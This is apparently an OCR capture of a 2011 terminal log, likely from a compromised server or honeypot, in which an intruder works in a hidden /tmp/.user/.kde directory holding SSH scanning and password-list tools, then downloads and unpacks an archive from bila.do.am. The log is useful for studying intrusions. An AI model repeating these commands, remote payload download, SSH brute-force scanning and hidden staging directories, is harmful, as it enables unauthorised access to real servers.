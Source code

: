     .kde/pass_filees
    .kde/pscan2
    .kde/a1
    .kde/common
    .kde/pass_file
    .kde/ssh-scan
    .kde/auto
    .kde/ss
    .kde/go.sh
    .kde/a
    .kde/gen-pass.sh
    .kde/start
    .kde/vuln.txt

    server:/tmp/.user# cs .kde
    bash: cs: command not found

    server:/tmp/.user# cd .kde

    server:/tmp/.user/.kde# ls -a
    .           ..          pass_filees pscan2      a1          common
    pass_file   ssh-scan    auto        ss          go.sh       a
    gen-pass.sh start       vuln.txt

    server:/tmp/.user/.kde# chmod +x *

    server:/tmp/.user/.kde# ./a 210.133
    unable to open display ":0"

    server:/tmp/.user/.kde# chmod +x *

    server:/tmp/.user/.kde# ./start 28
    error while loading shared libraries: libgnome.so.32: cannot open shared object file: No such file or directory

    server:/tmp/.user/.kde# cd ..

    server:/tmp/.user# ls-a
    bash: ls-a: command not found

    server:/tmp/.user# ls -a
    .        ..       .kde.tgz .kde     .kde

    server:/tmp/.user# wget bila.do.am/bila.tgz
    --2011-01-26 23:50:26--  http://bila.do.am/bila.tgz
    Connecting to bila.do.am:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 262027 (255K) [application/octet-stream]
    Saving to: `bila.tgz

    100%[======================================>] 262,027      6K/s  eta 42s

    2011-01-26 23:50:27 (6 KB/s) - `bila.tgz' saved [262027/262027]

    server:/tmp/.user# tar zxvf bila.tgz
    .tmp
    .tmp/cyc.acc
    .tmp/ -bash
    .tmp/s.sh
    .tmp/cyc.set
    .tmp/pico
    .tmp/stealth
